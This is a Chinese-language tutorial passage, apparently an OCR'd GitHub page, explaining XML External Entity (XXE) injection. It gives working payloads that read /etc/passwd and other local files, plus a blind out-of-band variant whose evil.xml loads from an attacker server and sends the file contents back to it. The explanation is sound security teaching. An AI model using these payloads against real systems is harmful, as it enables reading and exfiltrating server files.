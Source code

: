 ```xml
//被引用的note.dtd
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

### XXE漏洞攻击

​	XML外部实体注入（XML External Entity），简称**XXE**，漏洞发生在应用程序解析 XML 输入时，没有禁止外部实体的加载。而在XEE漏洞的基础上，发展出了Blind XXE漏洞。

​	对于传统的XXE来说，要求有一点，就是攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件。例如提交如下请求：

```xml
<?xml version="1.0"?><!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/issue">]>
<data>&file;</data>
```

​	如果服务器没有回显，只能使用 OOB(外带数据) 攻击来绕过对基本的 XXE 攻击的限制，这种漏洞也成为Blind XXE漏洞。在进行blind XXE攻击时，将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。例如提交如下请求：

```xml
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
<!ENTITY % file SYSTEM "file:///etc/passwd">  
<!ENTITY % remote SYSTEM "http://192.168.199.1/evil.xml">  
%remote;  
%all;  
]>  
<root>&send;</root> 
```

在攻击者的VPS中可起一个web服务，将以下evil.xml保存在该web目录下供远程加载。

```xml
//evil.xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.199.1/?file=%file;'>">
```

​	实体remote，all，send的引用顺序很重要，首先对remote引用目的是将外部文件evil.xml引入到解释上下文中，然后执行%all，这时会检测到send实体，在root节点中引用send，就可以成功实现数据转发。当然，也直接在DTD中引用send实体，如果在evil.xml中，send是个参数实体的话，即以下方式：

```xml
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
<!ENTITY % file SYSTEM "file:///C:/1.txt">  
<!ENTITY % remote SYSTEM "http://192.168.150.1/evil.xml">  
%remote;  
%all;  
%send;  
]> 
```
